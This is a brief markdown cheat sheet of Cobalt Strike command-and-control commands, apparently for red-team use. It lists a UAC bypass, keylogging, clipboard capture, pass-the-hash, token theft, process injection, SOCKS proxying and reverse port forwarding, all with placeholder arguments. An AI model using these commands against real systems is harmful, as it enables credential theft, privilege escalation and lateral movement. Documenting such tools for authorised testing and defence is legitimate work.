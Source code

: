# Cobalt Strike

## Start Team Server

```
sudo ./teamserver <ip_server> <shared_pwd> <path_to_profile>
```

## Beacon cmd

### Set beacin sleep time

```
sleep <time_in_sec_ex>
```

### Try bypass UAC and elevate process

```
elevate uac-schtasks <process_name_beacon>
```

### Execute assembly

```
execute-assembly <local_path_to_exe> <argument>
```

### Execute command

```
run <cmd> <arg1>
```

### Upload file

```
upload <path_local_file>
```

### Periodic screenshot

```
screenwatch
```

### List jobs

```
jobs
```

### Kill jobs

```
jobkill <job_id>
```

### record keys

```
keylogger
```

### Copy clipboard

```
clipboard
```

### Path-the-hash and mimikatz to admin

```
pth <Domain>\<user> <hash>
```

### drop impersonation

```
rev2self
```

### Impersonate process and token

```
steal_token <PID>
```

### Make user token with password

```
make_token <Domain\user> <password>
```

### Store token

```
token-store steal <pid>
```

### Show token 

```
token-store show
```

### use stored token

```
token-store use <id>
```

### Inject beacon into process

```
inject <pid> <x64|x86> <listener_name>
```

### Connect to listening pivot

```
connect <target_ip_or_hostname> <port>
```

### Spawn new process and inject beacon

```
spawn <x64|x86> <listener>
```

### Proxy socks4

```
socks <port|1080>
```

### Proxy socks5 with auth

```
socks 1080 socks5 disableNoAuth <user> <pass> enableLogging
```

### Rerverse port forwarding

```
rportfwd <local_port> <127.0.0.1> <port_forward>
```